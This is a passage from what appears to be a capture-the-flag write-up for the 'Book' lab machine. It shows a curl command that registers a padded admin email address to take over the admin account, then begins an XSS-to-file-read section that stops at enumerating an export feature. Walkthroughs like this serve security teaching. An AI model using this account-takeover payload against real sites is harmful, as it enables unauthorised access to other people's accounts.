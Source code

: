 ```bash
root@darkness:~# curl -X POST -d 'name=chronos&email=admin@book.htb%20%20%20%20%20%20a&password=chronos%40htb' 10.10.10.176/index.php
```

Using curl, we can quickly update the password back whenever it is changed.

After logging in, we get redirected to this page and are logged in as admin.

![Admin home](/assets/htb/Book/webpage-admin-home.png)



## XSS to arbitrary file-read

### Enumeration

Checking out the admin page, we see that we can export the collections of submitted books.

![Export collections](/assets/htb/Book/admin-export.png)